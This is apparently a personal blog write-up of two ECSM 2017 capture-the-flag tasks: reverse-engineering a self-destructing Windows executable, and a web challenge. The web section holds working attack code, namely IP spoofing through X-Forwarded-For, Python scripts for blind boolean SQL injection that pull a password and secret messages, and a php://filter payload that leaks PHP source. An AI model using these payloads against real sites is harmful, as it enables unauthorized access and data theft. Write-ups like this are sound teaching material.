




# ECSM 2017 CTF

I really liked the last year [ECSM 2016 CTF](https://ctfs.ghost.io/ecms-2016-ctf/) created by CERT & p4 team and I was a bit down learning that this year it was scheduled on the days I was pretty busy traveling. In fact only yesterday I had some time to look closely (I did check briefly when the CTF started) at [tasks](https://ecsm2017.cert.pl/) and managed to solve 2. Since the competition has already ended here are my solutions.

If the rest will be still available I'll add them as I managed to solve.

## Czerwony exploit (Red Exploit; RE)

Here we are give an exe file with the information that the program did selfdestructed but it's unknown what was changed by running it and it's our task to find out.

Opening the file in Relyze and switch to strings already shows us some interesting potential starting points

There are a file path, something that looks like an URL (tailcall.net) and some encoded strings. Let's start with the domain name. If we go to the place where it's referenced, we immediately see some methods that are used to access the HTTP resources on the net. Reconstructing the function it looks like we need to run a GET to a tailcall.net host on port 6012 and ask for an `/infiltrator` resource. Also our User-Agent string should be set to "CyberExploit".

So we run the same HTTP request as the application and saves the output:

> curl -v <http://tailcall.net:6012/infiltrator> -A"CyberExploit" > c:\temp\ecsm2017\data.dat

72 bytes saved. Looks promising. Unfortunately the data is unreadable but that was expected. We need to understand the algorithm how the data is decoded. So back to Relyze...

Let's scroll up to the top of the method where the query was executed and go the the caller location. We can see that the http query is followed by `GetUserNameA` method. And the whole method itself is being called from the method where one of the cryptic string ("E[DGTQDTQPC46") is being referenced and modified by adding 2 to every char. Let's see what value we will get if we substract 2. A quick python run and we get: `CYBEROBRONA24`. Promising, maybe we can get same output from other string?

Let's see what's going on there. If we navigate there, we see a similar code but this time it is xored with 0x1F. Again a quick run and we get: `RedaktorCyberobrona`. Interesting. Let's look deeper and see how those data are used. Analyzing the code that's executed after the HTTP requests and that uses the data retrieved from the query we see that result of `GetUserNameA` is xored if `0xFFFFFF99` and the result is xored again with the data being returned from the HTTP. Let's do a quick check of that
[code]
    #red exploit

    http = open('data.dat','rb').read()
    print http
    username = "RedaktorCyberobrona"
    u = ""
    wynik = ""

    for k in username:
    	u += chr((0xFFFFFF99 ^ ord(k)) % 255)

    for i in range(len(http)):
    	c = (ord(http[i]) ^ ord(u[i % len(username)]))
    	wynik += chr(c)

    print wynik
[/code]

And we get the flag: `ecsm{czerwony_cyberatak_z_czerwonego_cyberwschodu}`. And as for the changes that the program made? It looks like it is opening a "C:\CyberObrona24\Artykuly
ajnowszy_cyberatak.txt" file and write there the decoded buffer received from the HTTP.

## Podwójne uwierzytelnianie (Double authorization; Web)

Here we landed in North Korea. When we open the attached [link](http://ecsm2017.cert.pl:6044/index.php/home) we see a red (I guess a favorite communists' color?) with some Korean text on it. A quick google translate gives us this info:

> Hello mania!
>  After the last hack we had to implement new security measures. Now we use double authentication. You need to use a VPN to discover that your IP belongs to a glorious North Korea.

Not sure if the first line is correct but at least the next ones gives us some kind of indication of what we should try to do. We need to trick the script to think we are within the North Korean IP address. A quick look for that and we find an entry on the Wikipedia - [North Korea IP addresses range](https://en.wikipedia.org/wiki/Internet_in_North_Korea#IP_address_ranges) \- so we have two ranges to check.

> curl -v <http://ecsm2017.cert.pl:6044/index.php/instructions> -H"X-Forwarded-For: 175.45.176.110"

And in the output headers we see a "WWW-Authenticate" \- I think we're getting somewhere.

In the request we can see that the value of "WWW-Authenticate" is set to LOGIN. Let's try a bit of SQLi. Let's use a single quote as our user name.

> curl -v <http://ecsm2017.cert.pl:6044/index.php/instructions> -H"X-Forwarded-For: 175.45.176.110" -u':p

And among the gibberish we see: unrecognized token: "'''" \- ok, so SQLi is real. Let's try to get some info from that. At this time I've switched from `curl` to `python` \+ `requests` to have easier means to code the solution if needed

If there is a sqli then we can extract the password:
[code]
    # -*- coding: utf-8 -*-
    import requests
    import string

    url = "http://ecsm2017.cert.pl:6044/index.php/instructions"#php://filter/convert.base64-encode/resource=instructions"
    print string.printable
    headers = {'X-Forwarded-For':'175.45.176.110'}
    pwd = ""
    bulk = ""

    while True:
    	for i in string.printable:
    		if i == '%' or i == "'" or i == ':' or i=="_":
    			continue
    		user = "admin' and password like '"+bulk+i+"%'-- "
    		pwd = bulk
    		res = requests.get(url, headers=headers, auth=(user, pwd))
    		if "WWW-Authenticate" not in res.headers:
    			print res.headers
    			print res.content
    			break
    		elif "WRONG PASSWORD" in res.headers["WWW-Authenticate"]:
    			bulk += i
    			print bulk
    			break

    res = requests.get(url, headers=headers, auth=(user, pwd))
    print res.headers
    print res.content

[/code]

With such simple script we can retrieve the password which is set to 'to-nawet-nie-jest-hash' but it did not work when we pass it as a password. Hmm - we need another approach.

I was a bit stuck here but then started to play around with the urls and noticed that there's another issue. If we pass a random string as the last part of the url

> <http://ecsm2017.cert.pl:6044/index.php/test>

we will see a PHP errors from failing to open `test.php` file.

> Warning: include(test.php): failed to open stream: No such file or directory in /var/www/html/index.php on line 30

> Warning: include(): Failed opening 'test.php' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 30

We learn a valuable info from this one. It looks like home & instructions are php files laying on the disk which we read and include.

We could pass index there to read the contents but it will be for nothing as the PHP code would get executed and rendered not as code. We need to make sure file is encoded before send to the output. And there's a way to do that.

That's probably the first think people learn about PHP but there are some clever means to wrap the input/output before it gets rendered. One of them is base64 encoder. If we run our PHP code through it it wont get preprocessed and we would get a base64 string of the actual code. In this case it is as easily said and done - it's enough to pass this as a part of the url and the code is ours:

> <http://ecsm2017.cert.pl:6044/index.php/php://filter/convert.base64-encode/resource=instructions>

We just need to decode from the base64 string

[View Gist](https://gist.github.com/pawlos/e7f0cfafe807ae948f91b0a5aeed6542)

In the code we see exactly that our logic is confirmed. There is an IP range check, SQL injection and why the password will not work. We can also see that the DB is sqlite. The most important part is that the message is waiting for us in the messages table. Let's extract that:
[code]
    # -*- coding: utf-8 -*-
    #korea.py
    import requests
    import string

    url = "http://ecsm2017.cert.pl:6044/index.php/instructions"
    headers = {'X-Forwarded-For':'175.45.176.110'}

    bulk = ""

    while True:
    	for i in string.printable:
    		if i == '%' or i == "'" or i == ':' or i=="_":
    			continue
    		user = "admin' and (select CASE WHEN message like '"+bulk+i+"%' THEN 1 ELSE 0 END from instructions)=1-- "
    		pwd = bulk
    		res = requests.get(url, headers=headers, auth=(user, pwd))
    		if "WWW-Authenticate" not in res.headers:
    			print res.headers
    			print res.content
    			break
    		elif "WRONG PASSWORD" in res.headers["WWW-Authenticate"]:
    			bulk += i
    			print bulk
    			break
    res = requests.get(url, headers=headers, auth=(user, pwd))
    print res.headers
    print res.content

[/code]

Finally the flag is: `ecsm{cyber.szpiegostwo}`.

## Final words

It was a fun challenge to solve those two tasks - I hope the rest will remain online after the challenge and be as fun as those two.
